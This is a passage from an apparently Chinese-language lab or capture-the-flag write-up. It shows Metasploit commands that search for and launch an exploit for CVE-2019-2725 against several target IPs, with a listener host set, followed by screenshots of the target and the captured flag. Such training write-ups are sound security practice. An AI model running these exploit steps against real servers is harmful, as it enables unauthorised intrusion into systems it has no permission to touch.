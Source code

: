 
- 确定主机存在的漏洞，设置好参数后`exploit`。

```
# search exploit
search cve-2019-2725
use 0

show options

# 分别设置不同的靶机 IP
set RHOSTS 192.170.84.2
# set RHOSTS 192.170.84.4
# set RHOSTS 192.170.84.5

set lhost 192.168.56.214

exploit
```

![84-2](img/84-2.png)

![flag-2](img/flag-2.png)
